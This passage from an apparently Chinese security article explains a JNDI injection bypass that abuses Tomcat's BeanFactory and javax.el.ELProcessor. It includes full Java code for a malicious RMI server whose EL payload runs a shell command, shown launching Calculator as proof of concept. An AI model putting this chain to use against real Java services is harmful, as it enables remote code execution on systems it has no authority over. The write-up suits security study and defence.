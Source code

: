 ![图1](../images/articles/201906/beanFactory.png)

这个情况下，目标Bean Class必须有一个无参构造方法，有public的setter方法且参数为一个String类型。事实上，这些setter不一定需要是set..开头的方法，根据org.apache.naming.factory.BeanFactory中的逻辑，我们可以把某个方法强制指定为setter。

这里，我们找到了`javax.el.ELProcessor`可以作为目标Class。启动RMI Server的利用代码如下：

```java
Registry registry = LocateRegistry.createRegistry(rmi_port);
// 实例化Reference，指定目标类为javax.el.ELProcessor，工厂类为org.apache.naming.factory.BeanFactory
ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
// 强制将 'x' 属性的setter 从 'setX' 变为 'eval', 详细逻辑见 BeanFactory.getObjectInstance 代码
ref.add(new StringRefAddr("forceString", "KINGX=eval"));
// 利用表达式执行命令
ref.add(new StringRefAddr("KINGX", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','/Applications/Calculator.app/Contents/MacOS/Calculator']).start()\")"));

ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
registry.bind("Exploit", referenceWrapper);
```

"forceString"可以给属性强制指定一个setter方法，这里我们将属性"KINGX"的setter方法设置为 ELProcessor.eval() 方法。
